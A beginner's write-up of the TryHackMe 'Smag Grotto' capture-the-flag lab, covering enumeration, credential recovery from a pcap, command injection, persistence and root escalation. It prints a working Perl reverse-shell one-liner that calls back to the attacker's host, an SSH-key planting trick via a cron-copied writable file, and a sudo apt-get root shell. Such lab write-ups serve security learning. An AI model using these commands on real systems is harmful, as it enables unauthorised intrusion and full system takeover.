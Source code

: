 <p align="center">
  THM : Smag Grotto<br>
  <img src="https://i.imgur.com/o08Runb.png">
</p>

## Table of contents
- [Step 1 : Nmap Scan](#step-1--nmap-scan)
- [Step 2 : Website enumeration](#step-2--website-enumeration)
- [Step 3 : Exploiting the website to get a reverse-shell](#step-3--exploiting-the-website-to-get-a-reverse-shell)
- [Step 4 : Get access to another user than www-data](#step-4--get-access-to-another-user-than-www-data)
- [Final step : Privilège escalation](#final-step--privilege-escalation)
- [Conclusion](#conclusion)


## Step 1 : NMAP Scan
First , we need to scan the target to find open ports.  
```nmap 10.10.21.185 -A -oN nmapResult``` (I always store the nmap scan result in a file).    
![alt text](https://i.imgur.com/qnZT0cl.png)  
We see 2 open ports :  
- port 22 for ssh  
- port 80 for http -> the target has a website that we can enumerate.  

## Step 2 : Website enumeration
Let's see the website  
![alt text](https://i.imgur.com/PSy4ni0.png)  
Ok, so now we know that this website is under development.  
I start a dirb scan on the target website.
```dirb http://10.10.21.185/ -o dirbResult```  
(Same as nmap, i always store dirb scan result in a file).  
![alt text](https://i.imgur.com/Ezv6GfQ.png)  
We see that dirb found a mail directory ! Let's see what we have at ```http://10.10.21.185/mail/```  
![alt text](https://i.imgur.com/uME2QT1.png)  
There is a pcap file. This can be really useful to find credentials used to connect to the target with diferrent protocols.  
Also, we have three possible logins : 
- ```netadmin@smag.thm```  
- ```uzi@smag.thm```  
- ```jake@smag.thm```  


We also maybe have a domain name : smag.thm  
![alt text](https://i.imgur.com/9p3t4NF.png)  



So we found some interesting things in this pcap file :   
- In the pcap file, there is a hostname : ```development.smag.thm```  
- There is also credentials used in a login.php page  

To access the website development section, I added the line ```10.10.21.185    development.smag.thm``` to the file ```/etc/hosts``` on my machine.  
Now, if I enter ```http://development.smag.thm/``` in the address bar, i enter the hidden development section of the website.  
![alt text](https://i.imgur.com/zSFc88j.png)  


There is two files in here :
- admin.php -> if not logged in, it redirects us to login.php.  
- login.php -> here we can use the credentials we found before in the pcap file.  


So let's try to use the credentials we found in the pcap file to login on the login.php page.
![alt text](https://i.imgur.com/SmbKqGc.png)  


And we are logged in !  
We are automatically redirected to admin.php.  
![alt text](https://i.imgur.com/puRBFr4.png)  

## Step 3 : Exploiting the website to get a reverse-shell
In this page, I tried ```ls``` and ```whoami``` but there was no output. But we can try to get a reverse shell with this command input. I used a perl reverse shell found at https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  
```
perl -e 'use Socket;$i="10.x.x.x";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```  
So I set a netcat listener on port 1234. ```nc -lnvp 1234```, then I send the reverse shell command to the website, and I got a reverse shell !  
![alt test](https://i.imgur.com/Clnpl84.png)  


Let's get a bit more stable shell with python, ```python3 -c 'import pty; pty.spawn("/bin/bash")'```.  
![alt text](https://i.imgur.com/bHf9Wk3.png)  
(And yes the ip address of the target has changed, it's because I restarted the machine... it's a long story...)  

## Step 4 : Get access to another user than www-data
Now that we have a better shell, we can try to read the file ```/etc/passwd```to see users list on this machine ```cat /etc/passwd```.  
![alt text](https://i.imgur.com/4JoLmKd.png)  


We have the user jake, remember, we saw this name before in the /mail directory of the website.  So maybe we can try to connect to the machine as jake. But how can do this ? First I looked in the jake's home directory ```/home/jake```.  
![alt text](https://i.imgur.com/J1zPHY0.png)  


We can see that there is a file named ```.sudo_as_admin_successful```, that means that the user jake succesfully executed a command with sudo in the past. We can keep that in mind. We can't read any useful files, and we can't even go to the .ssh directory to try to find private ssh key... The next thing i've done was to check the crontab ```cat /etc/crontab```. 
![alt text](https://i.imgur.com/Lr8wf9Z.png)


One interesting thing here is that we have a cron task that copy ```/opt/.backups/jake_id_rsa.pub.backup``` to ```/home/jake/.ssh/authorized_keys```. The copied file is probably a public SSH key. After a little bit of research, I found something interesting about SSH public keys here : https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/. As I thought, it is possible to add our own public key to the authorized_keys file to then connect to the target without any password.  

So let's check if we can write to the ```/opt/.backups/jake_id_rsa.pub.backup```file with ```ls -l /opt/.backups/jake_id_rsa.pub.backup```.  
![alt text](https://i.imgur.com/YxCuEme.png)  


And we see that everybody can write to this file... Now we just have to create our own SSH keys and then copy our own public key to this file to connect with SSH as user jake. To generate our own keys, we need to use ```ssh-keygen -f jake_id_rsa```.  
![alt text](https://i.imgur.com/OWYhdS2.png)  


We now have two files :
- jake_id_rsa -> the private key we are going to use to connect with SSH.
- jake_id_rsa.pub -> the public key we need to copy to the ```/opt/.backups/jake_id_rsa.pub.backup``` file.  

I read the content of the public key file on my computer, and then I use ```echo '<MY PUBLIC KEY>' > /opt/.backups/jake_id_rsa.pub.backup``` on the target machine. Also, don't forget to set the right permissions for the private SSH key with ```chmod 600 jake_id_rsa```. And the we can connect with SSH as jake to the machine with ```ssh jake@10.10.24.178 -i jake_id_rsa```.  
![alt text](https://i.imgur.com/CgAIAtx.png)


We are now logged in as jake ! And we can now get the user.txt flag using ```cat user.txt```  
![alt text](https://i.imgur.com/bhPQu8t.png)

## Final step : Privilege Escalation
Now, it's time to get root ! Remember, we found a file named ```.sudo_as_admin_successful```, that means that user jake has already used a command with sudo in the past, so maybe jake has the permission to use a command with sudo without a password. To see this , we use ```sudo -l``` :  
![alt text](https://i.imgur.com/mDH59MY.png)  


We see that user jake can use sudo apt-get, and so execute the apt-get command as root without any password ! Let's see on [GTFOBins](https://gtfobins.github.io/) if we can execute a shell by using apt-get.  
![alt text](https://i.imgur.com/OQHoMBe.png)  
And yes we can ! By using ```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```.  
![alt text](https://i.imgur.com/NhQZMuR.png)  
And we have a root shell ! Now we can get the root flag with ```cat /root/root.txt```.  
![alt text](https://i.imgur.com/Ln7GE8p.png)  


## Conclusion
- Mails shouldn't be publicly accessible.
- There shouldn't be a publicly accessible pcap file.
- www-data user should'nt have write permissions on the file ```/opt/.backups/jake_id_rsa_pub.backup```. Maybe we can change the owner of the file with ```chown jake /opt/.backups/jake_id_rsa_pub.backup```and then, delete the write permission for other users than jake with ```chmod 600 /opt/.backups/jake_id_rsa_pub.backup```. So now only user jake can read or write to this file.
- Maybe we can filter commands on the website to avoid reverse shells

Thanks for reading my first write up ! (PS : I'm a beginner in pentesting and CTFs and english is not my native language).

